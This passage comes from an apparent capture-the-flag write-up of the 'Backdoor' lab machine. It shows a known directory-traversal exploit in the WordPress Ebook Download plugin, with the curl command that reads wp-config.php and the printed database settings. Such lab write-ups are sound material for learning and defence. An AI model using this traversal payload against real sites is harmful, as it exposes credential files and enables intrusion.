 After finding the plugins as described above, someone pointed out to me that the `/wp-content/plugins/` directory on Backdoor has directory listing enabled. That is not the default case, and WordPress typically puts an empty `index.php` in this directory to prevent just this kind of data leak. But it is the case here, which means that no brute force is necessary:

![image-20220421134550682](https://0xdfimages.gitlab.io/img/image-20220421134550682.png)

This is plenty to identify the Ebook Download plugin, and clicking on the folder shows the contents including the `readme.txt` with the version as well as the rest of the plugin files.

## Shell as user

### Local File Read

#### Background

The links from `wpscan` don’t give a POC, but a quick Google search for Ebooks-Download directory traversal finds [this exploit-db](https://www.exploit-db.com/exploits/39575) post. It shows that the version can be disclosed with `http://localhost/wordpress/wp-content/plugins/ebook-download/readme.txt` (which is what’s referenced in the `wpscan` results), and that the POC is to visit `/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`.

Just looking at the POC, it looks like the `ebookdownloadurl` accepts a local path which probably wasn’t what the author intended.

#### POC

I’ll manually check the version just to verify:

```

oxdf@hacky$ curl http://backdoor.htb/wp-content/plugins/ebook-download/readme.txt
=== Plugin Name ===                               
Contributors: zedna                                                 
Donate link: https://www.paypal.com/cgi-bin/webscr?cmd=_donations&business=3ZVGZTC7ZPCH2&lc=CZ&item_name=Zedna%20Brickick%20Website&currency_code=USD&bn=PP%2dDonationsBF%3abtn_donateCC_LG%2egif%3aNonHosted
Tags: ebook, file, download                                         
Requires at least: 3.0.4         
Tested up to: 4.4                             
Stable tag: 1.1 
...[snip]...

```

The “Stable tag” of 1.1 shows a vulnerable version.

I’m able to read the `wp-config.php` file just like the POC suggests, including the database connection information:

```

oxdf@hacky$ curl http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php
../../../wp-config.php../../../wp-config.php../../../wp-config.php<?php
/**
 * The base configuration for WordPress
...[snip]...
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpressuser' );

```